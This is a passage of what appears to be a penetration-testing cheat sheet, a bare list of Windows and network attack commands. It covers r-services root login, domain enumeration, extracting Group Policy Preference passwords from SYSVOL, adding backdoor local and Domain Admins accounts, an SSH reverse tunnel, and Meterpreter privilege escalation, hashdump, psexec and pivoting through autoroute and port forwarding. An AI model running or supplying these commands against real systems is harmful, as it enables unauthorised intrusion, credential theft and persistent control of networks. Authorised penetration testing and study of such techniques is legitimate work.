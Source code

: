```text
RSERVICES
---------
rwho 192.168.0.1
rlogin -l root 192.168.0.17

RPC Services
------------
rpcinfo -p
Endpoint_mapper metasploit



```

## Windows Enumeration

```text
ipconfig /all
systeminfo
net localgroup administrators
net view
net view /domain
net accounts /domain
net group "Domain Admins" /domain

Find Group Policy Preference XML files:
C:>findstr /S cpassword %logonserver%\sysvol\*.xml
meterpreter > post/windows/gather/credentials/gpp
```

## Add Windows User

```text
Add Windows User
net user username password /ADD
net localgroup Administrators username /ADD

net user username password /ADD /DOMAIN
net group "Domain Admins" username /ADD /DOMAIN
```

## \[+\] Pivoting - Lateral Movement

```text
SSH Tunneling:
Remote forward port 222
ssh -R 127.0.0.1:4444:10.1.1.251:222 -p 443 root@192.168.10.118
meterpreter> run arp_scanner -r 10.10.10.0/24
route add 10.10.10.10 255.255.255.248 <session>
use auxiliary/scanner/portscan/tcp

autoroute:
meterpreter > ipconfig
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > getsystem
meterpreter > run hashdump
use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > use exploit/windows/smb/psexec 

port forwarding:
meterpreter > run autoroute -s 10.1.13.0/24
use auxiliary/scanner/portscan/tcp
meterpreter > portfwd add -l <listening port> -p <remote port> -r <remote/internal host>
```